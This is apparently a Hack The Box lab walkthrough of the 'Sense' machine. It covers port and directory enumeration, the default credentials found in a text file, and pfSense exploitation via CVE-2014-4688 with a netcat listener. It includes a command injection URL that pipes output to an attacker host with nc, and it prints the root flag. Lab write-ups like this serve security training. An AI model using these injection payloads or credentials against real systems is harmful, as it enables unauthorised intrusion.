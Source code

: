 # Sense HTB, IP 10.10.10.60

# Initial Enumeration

**1.nmap -sC -sV 10.10.10.60**

![se1](https://user-images.githubusercontent.com/15195048/94268612-4ae0ab00-fef2-11ea-8bf0-ff8204ac3063.png)

**2. ./nmapAutomator.sh 10.10.10.60 All**

 cpe:/a:lighttpd:lighttpd:1.4.35: 
|       CVE-2018-19052  5.0     https://vulners.com/cve/CVE-2018-19052
|_      CVE-2018-19052  5.0     https://vulners.com/cve/CVE-2018-19052

**3. Dirb/Gobuster Enumeration**

dirb https://10.10.10.60 -X .php,.html
---- Scanning URL: https://10.10.10.60/ ----
+ https://10.10.10.60/edit.php (CODE:200|SIZE:6689)                                                                                                                                                                                       
+ https://10.10.10.60/exec.php (CODE:200|SIZE:6689)                                                                                                                                                                                       
+ https://10.10.10.60/graph.php (CODE:200|SIZE:6690)                                                                                                                                                                                      
+ https://10.10.10.60/help.php (CODE:200|SIZE:6689)                                                                                                                                                                                       
+ https://10.10.10.60/index.php (CODE:200|SIZE:6690)                                                                                                                                                                                      
+ https://10.10.10.60/index.html (CODE:200|SIZE:329)                                                                                                                                                                                      
+ https://10.10.10.60/license.php (CODE:200|SIZE:6692)                                                                                                                                                                                    
+ https://10.10.10.60/pkg.php (CODE:200|SIZE:6688)                                                                                                                                                                                        
+ https://10.10.10.60/stats.php (CODE:200|SIZE:6690)                                                                                                                                                                                      
+ https://10.10.10.60/status.php (CODE:200|SIZE:6691)                                                                                                                                                                                     
+ https://10.10.10.60/system.php (CODE:200|SIZE:6691)                                                                                                                                                                                     
+ https://10.10.10.60/wizard.php (CODE:200|SIZE:6691)                                                                                                                                                                                     
+ https://10.10.10.60/xmlrpc.php (CODE:200|SIZE:384) 


![se2](https://user-images.githubusercontent.com/15195048/94268614-4b794180-fef2-11ea-8106-2deae3a9b260.png)

**gobuster dir -u http://"10.10.10.60" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x .txt -r -k**
 
![se3](https://user-images.githubusercontent.com/15195048/94268616-4c11d800-fef2-11ea-8268-4941b8e84663.png)

![se4](https://user-images.githubusercontent.com/15195048/94268619-4caa6e80-fef2-11ea-8d32-f1caa09c04d0.png)

**4. SEARCHPLOIT**

searchploit lightttpd

![se5](https://user-images.githubusercontent.com/15195048/94268621-4d430500-fef2-11ea-86e5-a99b379dd30d.png)


searchploit pfsense

![se6](https://user-images.githubusercontent.com/15195048/94268622-4d430500-fef2-11ea-8f14-9803af973efe.png)


------------------------------------------------------------------------------------------------------------------------------------
# Port Enumeration

## Enumerating port 80
Firewall pfsense blocks us from visiting the mentioned pages.
index.php

![se7](https://user-images.githubusercontent.com/15195048/94268625-4e743200-fef2-11ea-9679-8139a41fb032.png)


pfSense is an open source firewall/router computer software distribution based on FreeBSD.

index.html


![se8](https://user-images.githubusercontent.com/15195048/94268629-4f0cc880-fef2-11ea-9042-34872cf29431.png)

![se9](https://user-images.githubusercontent.com/15195048/94268632-4f0cc880-fef2-11ea-9bcc-bc1b5b170fc4.png)


**Interesting Files**

https://10.10.10.60/tree/

![se10](https://user-images.githubusercontent.com/15195048/94268633-4fa55f00-fef2-11ea-878c-593a0be9a053.png)

SilverStripe v 0.1
Searching for known vulnerabilities.
-Nothing interesting

changelog.txt


![se11](https://user-images.githubusercontent.com/15195048/94268634-4fa55f00-fef2-11ea-95f1-d0b61de60361.png)

system-users.txt

![se12](https://user-images.githubusercontent.com/15195048/94268635-503df580-fef2-11ea-9776-a562703a4119.png)


According to the ticket, there is an account with username Rohit and default password.
Credentials rohit:pfsense

![se13](https://user-images.githubusercontent.com/15195048/94268637-503df580-fef2-11ea-857c-ecb001349ad8.png)


**Pfsense v2.1.3**


![se14](https://user-images.githubusercontent.com/15195048/94268639-50d68c00-fef2-11ea-911c-4785223aae8a.png)



Searching for vulnerability I found CVE-2014-4688.
![se15](https://user-images.githubusercontent.com/15195048/94268640-50d68c00-fef2-11ea-9a01-104f3842c192.png)



**Modifications:** lhost, lport, rhost, username, password and start a netcat listener
![se16](https://user-images.githubusercontent.com/15195048/94268643-516f2280-fef2-11ea-9859-9d63edd558b8.png)


**Attacker:**
nc -lvp 9999

![se17](https://user-images.githubusercontent.com/15195048/94268644-516f2280-fef2-11ea-9de1-85702c0b0a6c.png)


user.txt

------------------------------------------------------------------------------------------------------------------------------------------------------
# Privilege Escalation
## Command Injection Manually
Study the article https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection

/status_rrd_graph_img.php?database=queues;echo Testing | nc 10.10.14.12 443
**Attacker:**
nc -nlvp 443
 

We are local admin!
No privilege escalation needed!
![se18](https://user-images.githubusercontent.com/15195048/94268646-5207b900-fef2-11ea-9eb3-6bdb03fe59fe.png)

**Rooted**
cat root.txt
d08c32a5d4f8c8b10e76eb51a69f1a86

